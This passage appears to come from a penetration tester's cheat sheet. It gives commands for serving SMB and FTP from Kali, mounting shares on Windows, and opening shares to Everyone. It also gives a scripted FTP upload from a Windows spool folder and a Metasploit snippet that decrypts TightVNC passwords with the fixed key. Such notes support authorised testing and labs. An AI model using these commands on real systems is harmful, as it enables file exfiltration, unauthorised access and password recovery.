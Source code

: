 SMB server (communicate with Windows **[1]**):

```
root@kali:$ impacket-smbserver -smb2support files `pwd`
```

1. [serverfault.com/a/333584/554483](https://serverfault.com/a/333584/554483)

Mount SMB in Windows with `net use`:

```
root@kali:$ impacket-smbserver -username snovvcrash -password 'Passw0rd1!' -smb2support share `pwd`
PS > net use Z: \\10.10.14.16\share
PS > net use Z: \\10.10.14.16\share /u:snovvcrash 'Passw0rd1!'
```

Mount SMB in Windows with `New-PSDrive`:

```
root@kali:$ impacket-smbserver -username snovvcrash -password 'Passw0rd1!' -smb2support share `pwd`
PS > $pass = 'Passw0rd1!' | ConvertTo-SecureString -AsPlainText -Force
PS > $cred = New-Object System.Management.Automation.PSCredential('snovvcrash', $pass)
PS > New-PSDrive -name Z -root \\10.10.14.16\share -Credential $cred -PSProvider 'filesystem'
PS > cd Z:
```

##### net share

```
Cmd > net share pentest=c:\smb_pentest /GRANT:"Anonymous Logon,FULL" /GRANT:"Everyone,FULL"
Or
Cmd > net share pentest=c:\smb_pentest /GRANT:"Administrator,FULL"
Cmd > net share pentest /delete
```


#### FTP

```
$ python -m pip install pyftpdlib
$ python -m pyftpdlib -Dwp 2121
Cmd > cd C:\Windows\System32\spool\drivers\color
Cmd > echo 'open 127.0.0.1 2121' > ftp.txt
Cmd > echo 'user anonymous' >> ftp.txt
Cmd > echo 'anonymous' >> ftp.txt
Cmd > echo 'binary' >> ftp.txt
Cmd > echo 'put file.bin' >> ftp.txt
Cmd > echo 'bye' >> ftp.txt
Cmd > ftp -v -n -s:ftp.txt
```




## VNC

Decrypt TightVNC password:

```
root@kali:$ msdbrun -q
msf5 > irb
>> fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07"
=> "\u0017Rk\u0006#NX\a"
>> require 'rex/proto/rfb'
=> true
>> Rex::Proto::RFB::Cipher.decrypt ["f0f0f0f0f0f0f0f0"].pack('H*'), fixedkey
=> "<DECRYPTED>"
```


[//]: # (# -- 5 spaces before)
[//]: # (## -- 4 spaces before)
[//]: # (### -- 3 spaces before)
[//]: # (#### -- 2 spaces before)
[//]: # (##### -- 1 spaces before)